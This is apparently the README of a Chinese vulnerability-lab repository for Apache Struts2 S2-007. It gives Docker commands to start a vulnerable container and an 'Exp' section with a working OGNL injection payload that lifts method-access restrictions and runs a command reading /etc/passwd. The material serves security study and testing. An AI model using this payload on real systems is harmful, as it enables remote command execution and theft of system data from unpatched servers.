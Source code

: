 ## Struts2 S2-007 漏洞环境

### 漏洞信息

 * [S2-007 公告](http://struts.apache.org/docs/s2-007.html)

参考 [http://rickgray.me/2016/05/06/review-struts2-remote-command-execution-vulnerabilities](http://rickgray.me/2016/05/06/review-struts2-remote-command-execution-vulnerabilities)

### 获取环境:

1. 拉取镜像到本地

 ```
$ docker pull medicean/vulapps:s_struts2_s2-007
 ```

2. 启动环境

 ```
$ docker run -d -p 80:8080 medicean/vulapps:s_struts2_s2-007
 ```
 > `-p 80:8080` 前面的 80 代表物理机的端口，可随意指定。 

### 使用与利用

访问 `http://你的 IP 地址:端口号/`

#### Exp

命令执行(命令加参数：getRuntime().exec('cat /etc/passwd'))

```
' + (#_memberAccess["allowStaticMethodAccess"]=true,#foo=new java.lang.Boolean("false") ,#context["xwork.MethodAccessor.denyMethodExecution"]=#foo,@org.apache.commons.io.IOUtils@toString(@java.lang.Runtime@getRuntime().exec('cat /etc/passwd').getInputStream())) + '
```

![](s2-007-1.png)

![](s2-007-2.png)

